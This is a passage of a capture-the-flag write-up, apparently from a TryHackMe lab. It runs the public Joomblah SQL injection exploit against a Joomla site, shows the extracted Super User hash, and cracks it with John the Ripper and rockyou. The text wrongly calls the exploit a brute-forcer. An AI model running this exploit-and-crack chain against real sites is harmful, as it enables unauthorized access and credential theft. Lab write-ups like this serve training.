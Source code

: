## Joomla Vulnerability exploitation

After some research, I found a python script that attacks joomla login to bruteforce credentials.
You can find it here. `https://github.com/XiphosResearch/exploits/blob/master/Joomblah/joomblah.py`

On my terminal:
```shell
python2 joomblah.py http://10.10.66.95
                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```
## Password Cracking

We get a user and a password hash.
To crack it, we will use john the ripper.
Store the hash `$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm` in file.

```shell
 john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spiderman123     (?)     
1g 0:00:14:45 DONE (2023-06-07 10:10) 0.001129g/s 52.90p/s 52.90c/s 52.90C/s thelma1..speciala
Use the "--show" option to display all of the cracked passwords reliably
Session completed.  
```
## User enumeration
